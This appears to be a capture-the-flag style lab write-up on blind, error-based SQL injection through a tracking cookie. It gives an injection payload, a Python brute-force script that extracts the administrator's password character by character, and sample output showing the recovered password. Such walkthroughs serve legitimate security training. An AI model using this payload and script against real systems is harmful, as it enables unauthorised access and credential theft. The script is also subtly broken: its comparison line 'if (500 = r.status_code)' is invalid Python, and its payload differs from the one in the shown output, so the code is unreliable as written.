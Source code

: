 ### Twelve Exercise 👆


![problem.PNG](/assets/SQLi/Twelve/problem.PNG)


#### **To do**

```
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.    
```

1. Should use a cookie to execute SQL Injection (I use BurpSuite)
![cookie.PNG](/assets/SQLi/Twelve/cookie.PNG)

* The problem informs us that we will be blind, then, if the query is wrong or accert we will receive a 500 or 200 code.


1. Query to inject with python to know the password of **administrator user**
```sql
' || (select case when substr(password, 1, 1) = 'a' then to_char(1/0) else '' end from users where username='administrator') || '
```



1. To discover the password we need to create a program in python to iterate each position:


```python
#!/usr/bin/python3

from pwn import *
import requests, time, string, signal, sys


def handler_stop(sig, frame):
        print("\n\n[!] Exiting... Bye")
        sys.exit(1)

def make_request():
    url = "<url of web page>"
    characteres = string.ascii_lowercase + string.digits
    password = ""
    bar_1 = log.progress("Brute Force")
    bar_1.status("Starting Brute Force...")
    time.sleep(1)
    bar_2 = log.progress("Password")
    
    for i in range(1,21):
        for character in characteres:
            cookie = {f"TrackingId": "<your TrackingId>' || (select case when substring(password,{i},1) = '{character}' then to_char(1/0) end from users where username='administrator') || '",
                    "session": "<your session>"
            }
            bar_1.status(cookie["TrackingId"])
            r = requests.get(url, cookies=cookie)   
            if (500 = r.status_code):
                password += character
                bar_2.status(password)
                break
#! Ctrl + C
signal.signal(signal.SIGINT, handler_stop)

if __name__ == "__main__":
    make_request()
```
* With this program we try to know the letter in each position of password length.
* In each position we try: `abcdefghijklmnopqrstuvwxyz0123456789`




**Output**
```bash
┌──(root㉿est)-[/home/kali/Desktop]
└─| python3 SQL_conditional_error.py 
[ ] Brute Force: beAgM62XEFMyuhEC'||(select case when substr(password,20,1) = 'c' then to_char(1/0) else '' end from users where username='administrator')||'
[┌] Password: 0ayv9e95nhfkfxyjiirc

```

5. Finally login with credentials:
* **username**: administrator
* **password**: [output program]

![login.txt](/assets/SQLi/Eleven/login.PNG)